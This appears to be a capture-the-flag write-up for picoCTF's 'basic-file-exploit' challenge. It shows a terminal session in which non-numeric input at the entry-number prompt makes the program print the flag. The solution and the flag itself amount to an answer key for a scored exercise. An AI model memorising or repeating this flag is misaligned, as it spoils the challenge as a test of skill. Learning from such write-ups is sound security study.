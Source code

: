 # basic-file-exploit
### Description
>The program provided allows you to write to a file and read what you wrote from it.
>Try playing around with it and see if you can break it!

### Solution

```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Please enter the length of your data:
1000
1000
Your entry number is: 1
Write successful, would you like to do anything else?
Please put in a valid number
2
2
Please enter the entry number of your data:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_9F68795F}
```
